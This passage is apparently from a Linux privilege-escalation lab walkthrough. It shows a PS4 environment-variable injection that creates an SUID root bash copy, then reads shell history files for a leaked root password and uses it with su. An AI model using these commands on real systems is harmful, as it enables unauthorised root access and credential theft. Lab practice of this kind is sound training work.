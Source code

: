 Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.

Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

```bash
/tmp/rootbash -p
```

Remember to remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!

```bash
rm /tmp/rootbash
exit
```

## 16. Passwords & Keys - History Files

If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.

View the contents of all the hidden history files in the user's home directory:

```bash
cat ~/.*history | less
```

Note that the user has tried to connect to a MySQL server at some point, using the "root" username and a password submitted via the command line. Note that there is no space between the -p option and the password!

Switch to the root user, using the password:

```bash
su root
```

<details><summary>User secret command</summary></details>


## 17. Passwords & Keys - Config Files

Config files often contain passwords in plaintext or other reversible formats.

List the contents of the user's home directory:

```bash
ls /home/user
```

